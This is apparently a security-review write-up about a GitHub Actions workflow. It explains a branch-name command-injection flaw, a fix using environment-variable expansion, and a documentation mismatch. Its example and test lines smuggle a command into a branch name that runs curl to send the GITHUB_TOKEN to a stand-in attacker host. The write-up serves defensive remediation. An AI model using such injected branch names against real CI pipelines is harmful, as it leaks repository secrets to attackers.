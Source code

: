 **Example Exploit:**
```bash
# Branch name: feature/$(curl https://attacker.com -d "$GITHUB_TOKEN")
# Workflow expands to:
TARGET_BRANCH="feature/$(curl https://attacker.com -d "$GITHUB_TOKEN")"
# Shell executes curl, leaking GITHUB_TOKEN to attacker
```

**Fix Explanation:**
```yaml
TARGET_BRANCH="${GITHUB_HEAD_REF:-$GITHUB_REF_NAME}"
```

**Why This is Secure:**
1. GitHub Actions pre-populates environment variables (`GITHUB_HEAD_REF`, `GITHUB_REF_NAME`)
2. Shell reads variables directly from environment
3. No re-parsing or re-evaluation
4. Command substitution syntax `$(...)` treated as literal string
5. Attacker cannot inject commands

**Bash Parameter Expansion:**
- `${VAR:-default}`: Use `$VAR` if set and non-empty, otherwise use `default`
- Reads environment variables safely
- No command substitution risk

**Security Validation:**
```bash
# Test with malicious branch name
export GITHUB_HEAD_REF='feature/$(curl attacker.com)'
TARGET_BRANCH="${GITHUB_HEAD_REF:-$GITHUB_REF_NAME}"
echo "$TARGET_BRANCH"
# Output: feature/$(curl attacker.com)  (literal string, no execution)
```

---

### Issue 2: Documentation Inconsistency (Minor)

**Current State:**
`docs/test-evidence/review-3310711738/artifact-upload-fix.txt` shows:
```yaml
- name: Upload repair artifacts
  ...
  retention-days: 30

- name: Fail if errors occurred
```

**Narrative says:** "Fail if errors occurred" step was removed.

**Actual Workflow State:**
Checking `.github/workflows/gdd-repair.yml` shows the step is STILL PRESENT.

**Fix:**
- Option 1: Update evidence to reflect step is present (accurate)
- Option 2: Remove step from workflow (match narrative)
